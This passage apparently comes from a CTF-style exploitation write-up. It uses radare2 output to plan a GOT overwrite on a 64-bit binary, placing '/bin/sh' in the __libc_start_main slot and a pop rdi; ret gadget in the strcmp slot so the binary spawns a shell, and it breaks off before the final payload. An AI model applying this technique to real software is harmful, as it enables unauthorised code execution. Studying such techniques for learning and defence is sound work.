 This means that we need to regain control of the stack **before** the main function reaches its epilogue, therefore we cannot use ROP this time.

One way is to overwrite a **.got.plt** entry (one that we don't need for our dark purposes) with the address of some code that let us regain the stack control. From here the silly idea: why not use the PLT as 0xTARGET? in this way it will hold the "/bin/sh" command **and** within the same `read` call we can carefully overwrite an entry in order to avoid the `main` epilogue.

Let's examine the PLT closely:

```r2
[0x0040069e]> iS~.got.plt
idx=22 vaddr=0x00601000 paddr=0x00001000 sz=80 vsz=80 perm=-rw- name=.got.plt

[0x0040069e]> pxw 80 @ 0x00601000 
0x00601000  0x00600e28 0x00000000 0x00000000 0x00000000  (.`.............
0x00601010  0x00000000 0x00000000 0x004004f6 0x00000000  ..........@.....
0x00601020  0x00400506 0x00000000 0x00400516 0x00000000  ..@.......@.....
0x00601030  0x00400526 0x00000000 0x00400536 0x00000000  &.@.....6.@.....
0x00601040  0x00400546 0x00000000 0x00400556 0x00000000  F.@.....V.@.....

[0x0040069e]> is~imp.
vaddr=0x004004f0 paddr=0x000004f0 ord=001 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts
vaddr=0x00400500 paddr=0x00000500 ord=002 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.system
vaddr=0x00400510 paddr=0x00000510 ord=003 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.read
vaddr=0x00400520 paddr=0x00000520 ord=004 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.__libc_start_main
vaddr=0x00400530 paddr=0x00000530 ord=005 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.strcmp
vaddr=0x00400540 paddr=0x00000540 ord=006 fwd=NONE sz=16 bind=UNKNOWN type=NOTYPE name=imp.__gmon_start__
vaddr=0x00400550 paddr=0x00000550 ord=007 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.err
```

By choosing the address `0x00601030` as value for 0xTARGET, we'll overwrite the entry for `__libc_start_main` with the bytes of the command "/bin/sh" plus the null terminator, and replace the adjacent entry (in this case `strcmp`) with the address of some useful ROP gadget that will give us back the control of the stack. Let's search for gadgets again, this time we need a pop and a ret (edited for brevity):

```r2
[0x0040069e]> /R pop

[...]

  0x00400743             5f  pop rdi
  0x00400744             c3  ret
```
Here the gadget at `0x00400743` can be perfect: it will pop the return address from the stack (because we are **calling** this gadget, instead of `strcmp`) and return to the ROP chain prepared on the stack after the first `read`. Actually, this gadget can be used again to get the address of "/bin/sh" into `rdi` before calling `system`.

## Putting things together
At this point, all the needed information is gathered and it's possible to structure the data to send in both `read` calls.
